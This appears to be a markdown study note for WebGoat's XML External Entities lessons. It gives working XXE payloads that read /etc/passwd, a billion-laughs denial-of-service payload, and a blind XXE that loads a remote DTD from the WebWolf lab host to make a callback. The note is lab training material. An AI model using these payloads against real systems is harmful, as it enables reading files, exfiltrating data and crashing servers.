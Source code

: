 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A4 - XML External Entities](#a4---xml-external-entities)
  - [XXE](#xxe)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A4 - XML External Entities

## XXE

### 1. Concept

### 2. What is a XML entity?

Types of XXE attacks:

- classic: an external entity is included in a local DTD
- blind: no output or errors are shown in the response
- error: resource get in the error message

### 3. XXE example

XML entities:

```xml
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
	<!ELEMENT author (#PCDATA)>
	<!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```

External DTD declaration:

```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "email.dtd">
<email>
	<to>webgoat@webgoat.org</to>
	<from>webwolf@webwolf.org</from>
	<subject>Your app is great, but contains flaws</subject>
	<body>Hi, your application contains some SQL injections</body>
</email>
```

with `email.dtd` content:

```
<!ELEMENT email (to,from,title,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT subject (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

XXE:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE author [
	<!ENTITY js SYSTEM "file:///etc/passwd">		
]>
<author>&js;</author>
```

Hint: including the `DOCTYPE` definition 
if the parser settings are enabled to allow external entities to be processed 
you are off to a good start for finding a XXE injection.

### 4. Let's try

Exploit:

```xml
<?xml version="1.0"?>
<!DOCTYPE author [
	<!ENTITY js SYSTEM "file:///">
]>
<comment>  <text>&js;</text></comment>
```

### 5. Assignment solution

### 6. Find XXE with a code review

- Jackson 2.7.8 does not inizialize the parser safely
- Spring Boot framework initializes the parser safely

### 7. Modern REST framework

Exploit:

HTTP Header: `Content-Type
	application/xml`

HTTP Body:

```xml
<?xml version="1.0"?>
<!DOCTYPE author [
	<!ENTITY js SYSTEM "file:///">
]>
<comment>  <text>&js;</text></comment>
```

### 8. Assignment solution

### 9. XXE DoS attack

Exploit example:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
	<!ENTITY lol "lol">
	<!ELEMENT lolz (#PCDATA)>
	<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
	<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
	<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
	<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
	<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
	<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
	<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
	<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
	<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

### 10. Blind XXE

- Create and host `attack.dtd` file on WebWolf:

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://localhost:9090/landing'>
```

- Submit the following xml in order to invoke the `attack.dtd`

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
	<!ENTITY % remote SYSTEM "http://localhost:9090/files/newbie/attack.dtd">
	%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
```

- Check 'WebWolf' > 'Incoming requests'

### 11. Blind XXE assignment

foo.dtd

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY foo SYSTEM 'http://localhost:9090/landing/xyz'>
```



```xml
<?xml version="1.0"?>
<!DOCTYPE author [
	<!ENTITY % remote SYSTEM "http://localhost:9090/files/newbie/fool.dtd">
	%remote;
]>
<comment>
	<text> &foo; </text>
</comment>
```

TODO